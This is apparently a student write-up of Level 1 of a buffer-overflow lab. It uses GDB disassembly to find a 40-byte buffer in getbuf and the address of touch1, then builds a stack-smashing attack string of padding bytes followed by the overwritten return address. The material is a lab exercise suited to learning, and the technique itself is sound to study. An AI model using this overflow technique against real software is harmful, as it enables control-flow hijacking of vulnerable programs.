# PART I:

## Level 1:
### 1) Find buffer size
Debug program with `GDB`, set break point at function `getbuf`, then disasamle the code, we can get:
```
=>  0x00000000004017a8 <+0>:	sub    $0x28,%rsp
    0x00000000004017ac <+4>:	mov    %rsp,%rdi
    0x00000000004017af <+7>:	callq  0x401a40 <Gets>
    0x00000000004017b4 <+12>:	mov    $0x1,%eax
    0x00000000004017b9 <+17>:	add    $0x28,%rsp
    0x00000000004017bd <+21>:	retq
 ```
we can see that the program sub `0x28`(`40` in decimal), which means the buffer size is `40`.
### 2) Find 
We can assumpt the return adress in right above the buffer in the stack. To verify our assumption of the buffer size and stack structure, we can run to the the return statement, `0x00000000004017bd <+21>`. Then check the value of the stack pointer `%rsp`, we can get:
 ```
(gdb) x $rsp
0x5561dca0:	0x00401976
 ```
Then, we disassble function `test` -- caller of function `getbuf`, we can get:
 ```
    0x0000000000401968 <+0>:	sub    $0x8,%rsp
    0x000000000040196c <+4>:	mov    $0x0,%eax
 => 0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
    0x0000000000401976 <+14>:	mov    %eax,%edx
    0x0000000000401978 <+16>:	mov    $0x403188,%esi
    0x000000000040197d <+21>:	mov    $0x1,%edi
    0x0000000000401982 <+26>:	mov    $0x0,%eax
    0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
    0x000000000040198c <+36>:	add    $0x8,%rsp
    0x0000000000401990 <+40>:	retq
  ```
We can see that, `0x00401976` is the where `getbuf` returns, which means our assumption is correct

### 3) find adress of `touch1`
Next we should find the adress where `touch1` starts. We can do this by set a break point to `touch1`:
```
(gdb) break touch1
Breakpoint 2 at 0x4017c0: file visible.c, line 25.
```
We can see that the start address of `touch1` is: `0x4017c0`

### 4) Construct the attack string
Finally, we can construct the attack string.
For the first `40` bytes. We can generate some random string. I use the string of 40 `'a'`, which can be represented in hex as:`61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61`
For the remaining part, we should use the little-edian `64` bits address of `touch1`. C will automatically add `\0` to the end of the string, which has hex representation `00`. So, we only need to constuct the first `56` bits as: 
`c0 17 40 00 00 00 00.`
Combine them, we can get our attack string: 
```
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 c0 17 40 00 00 00 00
```
